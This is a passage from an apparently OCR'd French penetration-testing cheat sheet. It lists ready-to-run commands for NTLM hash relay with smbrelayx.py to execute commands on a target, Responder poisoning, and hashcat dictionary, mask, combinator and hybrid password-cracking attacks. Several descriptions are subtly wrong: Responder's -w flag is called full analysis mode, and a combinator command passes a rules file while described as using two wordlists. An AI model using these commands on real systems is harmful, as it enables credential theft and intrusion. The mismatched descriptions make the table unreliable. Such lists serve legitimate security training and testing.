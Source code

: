 | 193 | smbrelayx.py -h 192.168.1.1 -c "whoami" | Relayer les hachages NTLM pour exécuter des commandes sur la cible. |
| 194 | responder -I eth0 -w | Exécuter Responder en mode d'analyse complète. |
| 195 | hashcat -a 0 -m 0 /path/to/hashfile /path/to/wordlist | Crackage de mot de passe haute performance. |
| 196 | hashcat -a 3 -m 0 /path/to/hashfile ?a?a?a?a?a?a | Attaque par masque avec force brute pour les mots de passe de longueur 6. |
| 197 | hashcat -a 3 -m 1000 /path/to/hashfile ?l?l?l?l | Attaque par masque avec lettres minuscules pour les hachages NTLM. |
| 198 | hashcat -a 0 -m 1800 /path/to/hashfile /path/to/wordlist | Attaque par dictionnaire sur les hachages SHA-512. |
| 199 | hashcat -a 1 -m 0 /path/to/hashfile /path/to/wordlist /path/to/rules | Attaque combinatoire utilisant deux listes de mots. |
| 200 | hashcat -a 6 -m 0 /path/to/hashfile /path/to/wordlist ?d?d | Attaque hybride avec dictionnaire et suffixe à 2 chiffres. |
